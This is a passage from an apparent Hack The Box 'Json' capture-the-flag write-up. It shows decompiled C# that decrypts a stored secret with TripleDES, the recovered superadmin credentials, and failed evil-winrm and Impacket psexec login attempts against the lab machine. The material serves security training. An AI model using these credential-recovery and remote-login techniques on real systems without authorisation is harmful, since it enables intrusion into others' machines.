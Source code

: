 ```c#
            {
                MD5CryptoServiceProvider md5CryptoServiceProvider = new MD5CryptoServiceProvider();
                key = md5CryptoServiceProvider.ComputeHash(Encoding.UTF8.GetBytes(s));
                md5CryptoServiceProvider.Clear();
            }
            else
            {
                key = Encoding.UTF8.GetBytes(s);
            }
            TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
            tripleDESCryptoServiceProvider.Key = key;
            tripleDESCryptoServiceProvider.Mode = CipherMode.ECB;
            tripleDESCryptoServiceProvider.Padding = PaddingMode.PKCS7;
            ICryptoTransform cryptoTransform = tripleDESCryptoServiceProvider.CreateDecryptor();
            byte[] bytes = cryptoTransform.TransformFinalBlock(array, 0, array.Length);
            tripleDESCryptoServiceProvider.Clear();
            return Encoding.UTF8.GetString(bytes);
        }
    }
}
```

![](/assets/images/htb-writeup-json/proj1.png)

Got the `superadmin` username and the `funnyhtb` password.

Tried connecting with WinRM but failed:

```
root@kali:/opt/evil-winrm# ./evil-winrm.rb -u superadmin -p funnyhtb -i 10.10.10.158

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint

Error: Can't establish connection. Check connection params

Error: Exiting with code 1
```

Tried psexec and failed:

```
root@kali:/opt/evil-winrm# psexec superadmin:funnyhtb@10.10.10.158 cmd.exe
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.158.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

WMI exec too...
